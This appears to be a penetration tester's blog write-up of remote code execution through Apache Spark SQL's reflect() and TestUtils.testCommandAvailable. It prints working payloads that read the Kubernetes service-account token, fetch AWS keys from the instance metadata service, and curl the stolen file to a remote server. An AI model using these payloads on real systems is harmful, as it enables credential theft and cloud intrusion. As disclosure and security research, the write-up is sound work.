 ```yaml
---
layout: post
title:  "Remote Code Execution by Abusing Apache Spark SQL"
date:   2022-10-24
---
```


During a security assessment, I discovered a feature that allowed users to execute arbitrary Spark SQL queries on analytics data.

## Vulnerability
The blog post ["The Dangers of Untrusted Spark SQL Input in a Shared Environment"](https://datapipelines.com/blog/the-dangers-of-untrusted-spark-sql-input-in-a-shared-environment/?ref=blog.stratumsecurity.com) mentioned two functions that allowed Java code execution. However, the java.lang.Runtime class and its getRuntime().exec() method couldn't be used because the Spark SQL functions reflect() and java_method() only supported calling static methods from classes without instantiation. I needed to find a Java class with a static method to exploit the Spark SQL functionality.

I was able to retrieve environment variables and system properties using the following SQL queries:
```sql
-- List environment variables
SELECT reflect('java.lang.System', 'getenv')

-- List system properties
SELECT reflect('java.lang.System', 'getProperties')
```

While the environment variables and system properties revealed nothing sensitive, the system properties did expose the Spark version, which later helped me achieve remote code execution.

## Path to Exploitation
While reviewing the Spark JavaDocs, I found a class called ```org.apache.spark.TestUtils``` with a static method, ```testCommandAvailable()```.

Upon reviewing the code on GitHub, I discovered that ```Process(command).run()``` allowed system commands to be executed.

I crafted a Spark SQL payload using this method to execute system commands and was able to disclose the Kubernetes API token and AWS keys with excessive permissions using the following queries:
```sql
-- Read Kubernetes API token file
SELECT * FROM csv.`/var/run/secrets/kubernetes.io/serviceaccount/token`

-- Write the AWS keys to a file
SELECT reflect('org.apache.spark.TestUtils', 'testCommandAvailable', 'curl http://169.254.169.254/latest/meta-data/iam/security-credentials/euwe1-redacted -o /opt/test.txt')

-- Send the file contents to a remote controlled server to view
SELECT reflect('org.apache.spark.TestUtils', 'testCommandAvailable', 'curl -X POST -F data=@/opt/test.txt http://remoteserver.example.com/test5.txt')
```

<figure>
  <img src="/assets/img/2022/awskeys-disclosed.png">
  <figcaption>Figure 1 – Disclosed AWS keys with code execution</figcaption>
</figure>  

After obtaining their AWS keys and verifying permissions, I listed all the S3 buckets accessible with those keys as a proof of concept for the report.

<figure>
  <img src="/assets/img/2022/buckets-listed.png">
  <figcaption>Figure 2 – Listed S3 buckets using disclosed AWS keys</figcaption>
</figure>  
